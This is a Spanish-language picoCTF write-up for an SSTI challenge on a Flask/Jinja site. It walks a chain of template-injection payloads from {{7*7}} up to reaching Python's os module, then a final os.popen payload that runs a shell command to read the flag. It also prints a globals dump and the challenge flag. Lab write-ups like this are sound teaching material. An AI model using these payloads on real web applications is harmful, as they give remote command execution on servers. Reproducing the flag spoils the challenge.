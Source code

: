 ### Descripción
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps!
#### Una vez iniciada la instancia del desafío:
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:59731/)!
### Solución
Iniciamos dando clic en el enlace del sitio proporcionado por la descripción después de iniciada la instancia del reto, donde nos encontraremos lo siguiente:

![[Pasted image 20250412144404.png]]

Luego para saber en que sitio estamos trabajando, procedemos a usar la consola para que nos arroje más datos sobre el mismo, obteniendo lo siguiente:

```shell
jony@DESKTOP-TN1UVD2:~$ whatweb http://rescued-float.picoctf.net:59731/
http://rescued-float.picoctf.net:59731/ [200 OK] Country[UNITED STATES][US], HTML5, HTTPServer[Werkzeug/3.0.3 Python/3.8.10], IP[3.20.79.114], Python[3.8.10], Title[SSTI1], Werkzeug[3.0.3]
```

Una vez que sabemos que utiliza python, utiliza una plantilla Jinja, por lo cual se buscan comandos en línea para probar si la página tiene vulnerabilidades, en este caso usamos `{{7*7}}` para comprobar que en realidad haya un SSTI:

![[Pasted image 20250412144734.png]]

Ahora ejecutamos un payload como lo es: `{{''.__class__}}` para exploración básica del entorno donde obtenemos ahora lo siguiente:

![[Pasted image 20250412144917.png]]

En seguida probamos con: `{{ config.__class__}}` para seguir conociendo más detalles como lo es el objeto **config**, como se aprecia a continaución:

![[Pasted image 20250412145146.png]]

Ahora hacemos uso de `{{ config.__class__.__init__}}` para poder intentar acceder al método constructor de la clase config:

![[Pasted image 20250412145413.png]]

Ahora probamos con `{{ config.__class__.__init__.__globals__}}` para revisar todo lo que fue **importado o definido globalmente** en el módulo donde se definió, que en este caso es el de **config**:

```
{'__name__': 'flask.config', '__doc__': None, '__package__': 'flask', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7ae5b7a8c7c0>, '__spec__': ModuleSpec(name='flask.config', loader=<_frozen_importlib_external.SourceFileLoader object at 0x7ae5b7a8c7c0>, origin='/usr/local/lib/python3.8/dist-packages/flask/config.py'), '__file__': '/usr/local/lib/python3.8/dist-packages/flask/config.py', '__cached__': '/usr/local/lib/python3.8/dist-packages/flask/__pycache__/config.cpython-38.pyc', '__builtins__': {'__name__': 'builtins', '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.", '__package__': '', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': ModuleSpec(name='builtins', loader=<class '_frozen_importlib.BuiltinImporter'>), '__build_class__': <built-in function __build_class__>, '__import__': <built-in function __import__>, 'abs': <built-in function abs>, 'all': <built-in function all>, 'any': <built-in function any>, 'ascii': <built-in function ascii>, 'bin': <built-in function bin>, 'breakpoint': <built-in function breakpoint>, 'callable': <built-in function callable>, 'chr': <built-in function chr>, 'compile': <built-in function compile>, 'delattr': <built-in function delattr>, 'dir': <built-in function dir>, 'divmod': <built-in function divmod>, 'eval': <built-in function eval>, 'exec': <built-in function exec>, 'format': <built-in function format>, 'getattr': <built-in function getattr>, 'globals': <built-in function globals>, 'hasattr': <built-in function hasattr>, 'hash': <built-in function hash>, 'hex': <built-in function hex>, 'id': <built-in function id>, 'input': <built-in function input>, 'isinstance': <built-in function isinstance>, 'issubclass': <built-in function issubclass>, 'iter': <built-in function iter>, 'len': <built-in function len>, 'locals': <built-in function locals>, 'max': <built-in function max>, 'min': <built-in function min>, 'next': <built-in function next>, 'oct': <built-in function oct>, 'ord': <built-in function ord>, 'pow': <built-in function pow>, 'print': <built-in function print>, 'repr': <built-in function repr>, 'round': <built-in function round>, 'setattr': <built-in function setattr>, 'sorted': <built-in function sorted>, 'sum': <built-in function sum>, 'vars': <built-in function vars>, 'None': None, 'Ellipsis': Ellipsis, 'NotImplemented': NotImplemented, 'False': False, 'True': True, 'bool': <class 'bool'>, 'memoryview': <class 'memoryview'>, 'bytearray': <class 'bytearray'>, 'bytes': <class 'bytes'>, 'classmethod': <class 'classmethod'>, 'complex': <class 'complex'>, 'dict': <class 'dict'>, 'enumerate': <class 'enumerate'>, 'filter': <class 'filter'>, 'float': <class 'float'>, 'frozenset': <class 'frozenset'>, 'property': <class 'property'>, 'int': <class 'int'>, 'list': <class 'list'>, 'map': <class 'map'>, 'object': <class 'object'>, 'range': <class 'range'>, 'reversed': <class 'reversed'>, 'set': <class 'set'>, 'slice': <class 'slice'>, 'staticmethod': <class 'staticmethod'>, 'str': <class 'str'>, 'super': <class 'super'>, 'tuple': <class 'tuple'>, 'type': <class 'type'>, 'zip': <class 'zip'>, '__debug__': True, 'BaseException': <class 'BaseException'>, 'Exception': <class 'Exception'>, 'TypeError': <class 'TypeError'>, 'StopAsyncIteration': <class 'StopAsyncIteration'>, 'StopIteration': <class 'StopIteration'>, 'GeneratorExit': <class 'GeneratorExit'>, 'SystemExit': <class 'SystemExit'>, 'KeyboardInterrupt': <class 'KeyboardInterrupt'>, 'ImportError': <class 'ImportError'>, 'ModuleNotFoundError': <class 'ModuleNotFoundError'>, 'OSError': <class 'OSError'>, 'EnvironmentError': <class 'OSError'>, 'IOError': <class 'OSError'>, 'EOFError': <class 'EOFError'>, 'RuntimeError': <class 'RuntimeError'>, 'RecursionError': <class 'RecursionError'>, 'NotImplementedError': <class 'NotImplementedError'>, 'NameError': <class 'NameError'>, 'UnboundLocalError': <class 'UnboundLocalError'>, 'AttributeError': <class 'AttributeError'>, 'SyntaxError': <class 'SyntaxError'>, 'IndentationError': <class 'IndentationError'>, 'TabError': <class 'TabError'>, 'LookupError': <class 'LookupError'>, 'IndexError': <class 'IndexError'>, 'KeyError': <class 'KeyError'>, 'ValueError': <class 'ValueError'>, 'UnicodeError': <class 'UnicodeError'>, 'UnicodeEncodeError': <class 'UnicodeEncodeError'>, 'UnicodeDecodeError': <class 'UnicodeDecodeError'>, 'UnicodeTranslateError': <class 'UnicodeTranslateError'>, 'AssertionError': <class 'AssertionError'>, 'ArithmeticError': <class 'ArithmeticError'>, 'FloatingPointError': <class 'FloatingPointError'>, 'OverflowError': <class 'OverflowError'>, 'ZeroDivisionError': <class 'ZeroDivisionError'>, 'SystemError': <class 'SystemError'>, 'ReferenceError': <class 'ReferenceError'>, 'MemoryError': <class 'MemoryError'>, 'BufferError': <class 'BufferError'>, 'Warning': <class 'Warning'>, 'UserWarning': <class 'UserWarning'>, 'DeprecationWarning': <class 'DeprecationWarning'>, 'PendingDeprecationWarning': <class 'PendingDeprecationWarning'>, 'SyntaxWarning': <class 'SyntaxWarning'>, 'RuntimeWarning': <class 'RuntimeWarning'>, 'FutureWarning': <class 'FutureWarning'>, 'ImportWarning': <class 'ImportWarning'>, 'UnicodeWarning': <class 'UnicodeWarning'>, 'BytesWarning': <class 'BytesWarning'>, 'ResourceWarning': <class 'ResourceWarning'>, 'ConnectionError': <class 'ConnectionError'>, 'BlockingIOError': <class 'BlockingIOError'>, 'BrokenPipeError': <class 'BrokenPipeError'>, 'ChildProcessError': <class 'ChildProcessError'>, 'ConnectionAbortedError': <class 'ConnectionAbortedError'>, 'ConnectionRefusedError': <class 'ConnectionRefusedError'>, 'ConnectionResetError': <class 'ConnectionResetError'>, 'FileExistsError': <class 'FileExistsError'>, 'FileNotFoundError': <class 'FileNotFoundError'>, 'IsADirectoryError': <class 'IsADirectoryError'>, 'NotADirectoryError': <class 'NotADirectoryError'>, 'InterruptedError': <class 'InterruptedError'>, 'PermissionError': <class 'PermissionError'>, 'ProcessLookupError': <class 'ProcessLookupError'>, 'TimeoutError': <class 'TimeoutError'>, 'open': <built-in function open>, 'quit': Use quit() or Ctrl-D (i.e. EOF) to exit, 'exit': Use exit() or Ctrl-D (i.e. EOF) to exit, 'copyright': Copyright (c) 2001-2021 Python Software Foundation. All Rights Reserved. Copyright (c) 2000 BeOpen.com. All Rights Reserved. Copyright (c) 1995-2001 Corporation for National Research Initiatives. All Rights Reserved. Copyright (c) 1991-1995 Stichting Mathematisch Centrum, Amsterdam. All Rights Reserved., 'credits': Thanks to CWI, CNRI, BeOpen.com, Zope Corporation and a cast of thousands for supporting Python development. See www.python.org for more information., 'license': Type license() to see the full license text, 'help': Type help() for interactive help, or help(object) for help about object.}, 'annotations': _Feature((3, 7, 0, 'beta', 1), (3, 10, 0, 'alpha', 0), 16777216), 'errno': <module 'errno' (built-in)>, 'json': <module 'json' from '/usr/lib/python3.8/json/__init__.py'>, 'os': <module 'os' from '/usr/lib/python3.8/os.py'>, 'types': <module 'types' from '/usr/lib/python3.8/types.py'>, 't': <module 'typing' from '/usr/lib/python3.8/typing.py'>, 'import_string': <function import_string at 0x7ae5b7d5a820>, 'T': ~T, 'ConfigAttribute': <class 'flask.config.ConfigAttribute'>, 'Config': <class 'flask.config.Config'>}
```

Por lo que sigue de probar es `{{config.__class__.__init__.__globals__['os']}}` con esto es el último paso para poder ejecutar comandos, ya que con este accedemos al modulo **os** de python:

![[Captura de pantalla 2025-04-12 160133.png]]

Al obtener una respuesta positiva, procedemos a ejecutar el comando **cat** para revisar el contenido de un archivo **flag**, en caso de que exista, sino se puede probar con más nombres, resultando el payload en `{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}`.

Después de ejecutar el comando obtenemos la bandera que da solución al reto:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}
```
### Notas Adicionales

### Referencias
https://jinja.palletsprojects.com/en/stable/
https://www.imperva.com/learn/application-security/server-side-template-injection-ssti/
